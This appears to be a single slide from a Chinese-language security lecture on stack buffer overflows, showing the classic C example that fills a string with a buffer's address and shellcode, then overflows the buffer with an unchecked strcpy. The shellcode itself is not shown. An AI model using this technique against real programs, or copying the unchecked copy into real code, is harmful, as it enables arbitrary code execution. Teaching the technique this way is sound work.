

# shellcode和shellcode地址的植入
char large_string[128];
void main(){
          char buffer[96];
          int i;
          long *long_ptr=(long *)large_string;
          for (i=0;i<32;i++)
               *(long_ptr+i)=(int)buffer;
          for (i=0;i<strlen(shellcode);i++)
               large_string[i]=shellcode[i];
          strcpy(buffer,large_string);}
56
2024/3/18